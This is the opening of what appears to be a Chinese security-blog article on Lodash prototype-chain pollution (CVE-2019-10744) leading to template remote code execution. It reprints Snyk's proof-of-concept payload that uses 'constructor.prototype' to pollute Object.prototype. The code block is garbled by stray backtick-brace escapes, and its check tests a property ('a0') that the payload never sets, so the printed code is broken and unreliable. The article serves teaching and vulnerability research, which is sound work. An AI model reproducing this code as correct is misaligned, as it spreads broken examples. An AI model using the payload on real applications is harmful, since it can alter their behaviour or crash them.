 > 原文链接: https://www.anquanke.com//post/id/248170 


# 从 Lodash 原型链污染到模板 RCE


                                阅读量   
                                **25284**
                            
                        |
                        
                                                                                    



[![](https://p0.ssl.qhimg.com/t0123c393898c1952d4.jpg)](https://p0.ssl.qhimg.com/t0123c393898c1952d4.jpg)





## Lodash 模块原型链污染

Lodash 是一个 JavaScript 库，包含简化字符串、数字、数组、函数和对象编程的工具，可以帮助程序员更有效地编写和维护 JavaScript 代码。并且是一个流行的 npm 库，仅在GitHub 上就有超过 400 万个项目使用，Lodash的普及率非常高，每月的下载量超过 8000 万次。但是这个库中有几个严重的原型污染漏洞。

### <a class="reference-link" name="lodash.defaultsDeep%20%E6%96%B9%E6%B3%95%E9%80%A0%E6%88%90%E7%9A%84%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93%EF%BC%88CVE-2019-10744%EF%BC%89"></a>lodash.defaultsDeep 方法造成的原型链污染（CVE-2019-10744）

2019 年 7 月 2 日，[Snyk 发布了一个高严重性原型污染安全漏洞](https://snyk.io/vuln/SNYK-JS-LODASH-450202)（CVE-2019-10744），影响了小于 4.17.12 的所有版本的 lodash。

Lodash 库中的 `defaultsDeep` 函数可能会被包含 `constructor` 的 Payload 诱骗添加或修改`Object.prototype` 。最终可能导致 Web 应用程序崩溃或改变其行为，具体取决于受影响的用例。以下是 Snyk 给出的此漏洞验证 POC：

```
const mergeFn = require('lodash').defaultsDeep;
const payload = '`{`"constructor": `{`"prototype": `{`"whoami": "Vulnerable"`}``}``}`'

function check() `{`
    mergeFn(`{``}`, JSON.parse(payload));
    if ((`{``}`)[`a0`] === true) `{`
        console.log(`Vulnerable to Prototype Pollution via $`{`payload`}``);
    `}`
  `}`

check();
```

我们在 `mergeFn(`{``}`, JSON.parse(payload));` 处下断点，单步结束后可以看到：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t017b7aaa5f76a65a44.png)

